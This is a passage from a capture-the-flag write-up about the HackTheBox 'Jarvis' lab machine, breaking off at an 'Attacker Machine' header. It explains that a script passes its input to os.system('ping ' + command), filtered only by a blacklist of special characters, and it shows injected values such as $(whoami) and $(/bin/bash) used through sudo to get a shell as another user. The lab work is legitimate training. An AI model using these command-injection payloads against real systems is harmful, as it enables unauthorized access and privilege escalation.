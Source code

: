 > **Attacker Machine**:

```bash
tcpdump -i tun0 icmp -n
```

> **Victime Machine**:

```bash
python3 simpler.py -p
# 10.10.14.3            Command Execution?
```

<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_47.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_48.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_49.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_50.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_51.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_52.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_53.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

If I perform an analysis of the **simpler.py** script code and find the command that is executed, it is indeed `ping`, but what I can observe is that the only security measure or code sanitization is the existence of a **blacklist** of **special characters**. I'm going to run the program again and this time I'm going to inject a command to replace an **IP**, I can see on the screen the output of the same but for other commands where special characters like **‘-’** are needed the protection measure does not allow it, it is even impossible to use `nc` to get a **reverse shell** (without resorting to more sophisticated methods).

> **Victime Machine**:

```bash
cat simpler.py
# os.system('ping ' + command)

sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
  $(whoami)

  $(/bin/bash)
  $(bash)
  whoami
  ls -la
```
> **Attacker Machine**:
